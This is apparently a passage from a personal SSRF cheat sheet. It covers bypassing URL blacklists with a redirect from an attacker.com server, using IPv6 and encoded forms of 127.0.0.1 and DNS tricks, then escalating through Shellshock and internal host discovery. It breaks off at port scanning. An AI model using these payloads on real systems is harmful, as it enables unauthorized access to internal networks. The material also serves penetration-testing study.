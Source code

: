 **or u can use** 

`(POST request body) user_id=1234&url=https://127.0.0.1#/pics.example.com
<span style="color:rgb(112, 48, 160)">the hash here commenting all the content after it </span>


## bypassing blacklist 
### Fooling It with Redirects
`https://public.example.com/proxy?url=https://attacker.com/ssrf`

Then, on your server at https://attacker.com/ssrf, you can host a file with the following content:
`<?php header("location: http://127.0.0.1"); ?>`

### Using IPv6 Addresses
instead of typing the ipv4 you can write it in ipv6  like this `64:ff9b::255.255.255.255`

### Tricking the Server with DNS
**DNS Records**: A records map to IPv4, AAAA records map to IPv6.
**Modify DNS Records**: Point your domain’s A/AAAA records to internal IPs of the target network.
**Practical Use**: Set your domain to resolve to 127.0.0.1 (localhost), then trick the target server into requesting data from its own internal network.
**Check DNS Records**: Use `nslookup DOMAIN` or `nslookup DOMAIN -type=AAAA`.
**Configuring DNS**: Adjust DNS records via your domain registrar, e.g., Namecheap, under Advanced DNS settings.   
`https://public.example.com/proxy?url=https://attacker.com`
Now when the target server requests your domain, it will think your domain is located at <span style="color:rgb(255, 0, 0)">127.0.0.1</span> and request data from that address
### Switching Out the Encoding 
Possible encoding methods include hex encoding, octal encoding, dword encoding, URL encoding, and mixed encoding. If the URL parser of the target server does not process these encoding methods appropriately, 
<span style="color:rgb(255, 0, 0)">0x7f.0x0.0x0.0x1</span>  equivalent for <span style="color:rgb(255, 0, 0)">127.0.0.1</span>
`https://0177.0.0.01`
`https://2130706433`
`https://%6c%6f%63%61%6c%68%6f%73%74`   all are ways of encoding 


# Escalating the Attack
## if the web server is vulnerable to shell shock attack you might escalate the targeted server to be an internal server  using ssrf 
[helpful link](https://github.com/anmolksachan/Blind-SSRF-with-Shellshock-exploitation)

## discovering the host 
- **Host Discovery**:
    
    - By submitting different internal IP addresses (e.g., `10.0.0.1` and `10.0.0.2`), you can deduce whether a host exists based on the response.
    - Example: An error response with "Apache" indicates a valid host, while "Connection Failed" indicates no host at that address.
- **Port Scanning**:
    